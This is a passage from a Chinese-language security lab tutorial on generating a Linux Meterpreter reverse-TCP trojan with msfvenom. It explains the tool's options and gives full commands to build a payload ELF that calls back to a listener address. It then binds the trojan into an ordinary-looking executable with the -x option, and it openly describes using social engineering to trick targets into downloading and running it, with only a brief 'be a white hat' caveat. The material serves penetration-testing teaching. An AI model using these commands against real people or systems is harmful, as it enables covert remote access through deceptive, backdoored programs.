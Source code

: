 这里我们主要用到`-p`、`-f`和`-o`选项，下面我们分别来介绍一下他们的含义,及用法。

- `-p`选项用来指定需要使用的`payload`,可以指定`&#39;-&#39;`或者`stdin`来自定义`payload`。如果不知道`payload`都包括哪些选项可以使用`--payload-options`列出`payload`的标准选项。
- `-f`选项用来指定payload的输出格式，可以使用`--help-formats`来列出可选的格式。
- `-o`选项用来指定输出的payload的保存路径，这里我们也可以采用重定向的方式来替代`-o`选项。

 再生成木马之前我们先使用`-l`选项来列出指定模块的所有可用资源(模块类型包括: payloads, encoders, nops, all)。这里我们指定`payloads`模块来查看都有哪些可用的`木马`。

```
msfvenom -l payloads
```
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2378timestamp1480163726233.png/wm)

这里我们选择`linux/x86/meterpreter/reverse_tcp`作为木马，接下来我们看一下这个木马都有哪些选项需要设置:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp --payload-options
```
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2378timestamp1480167963563.png/wm)

我们再来看一下都有哪些可以指定的输出格式:

```
msfvenom --help-formats 
```
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2378timestamp1480168250003.png/wm)

根据上面各个选项的解释，现在我们就用选择好的`payload`来生成linux下的木马程序吧！输入命令如下：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -f elf -o /root/payload.elf
```

命令执行完毕后木马就生成了，在上面的命令中我们使用`-p`选项指定了`payload`并设置了监听主机的ip地址，由于默认这个`payload`设置监听端口为4444,所以我们这里没有设置监听端口，需要更改监听端口可以设置`LPORT`参数。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid231096labid2378timestamp1480171022606.png/wm)

是不是很简单，这样我们就成功的生成了一个木马。Metasploit中还有很多`Payload`提供我们使用，可以根据实际情况进行选择。

## 五、捆绑木马

通常我们生成了木马之后，要运用社会工程学的攻击方式诱骗目标运行我们的木马程序，否则我们的木马只是玩具罢了，记住：`“没人运行的木马不是好木马”`。这里我们就来学习一下如何将木马捆绑到一个常用的应用程序上，这样我们就可以上传到某些地方来诱骗目标下载并运行我们的木马程序(`记住不要拿这个来做坏事，我们要做个正直的白帽子`)。

捆绑木马我们还是使用上面提到的`msfvenom`命令，只不过这里我们要用到一个新的命令行选项`-x`。我们来看一下`-x`选项的用法及含义。

- `-x`选项允许我们指定一个自定义的可执行文件作为模板，也就是将木马捆绑到这个可执行文件上。

知道了这个选项之后，聪明的同学可能知道该怎么做了，现在就跟着我一起实验一下吧！

为了方便演示，我们就将上一节生成的木马当做常用应用程序来捆绑木马。

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -f elf -x /root/payload.elf -o /root/payload_backdoor.elf
```
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid18510labid2378timestamp1482295551576.png/wm)
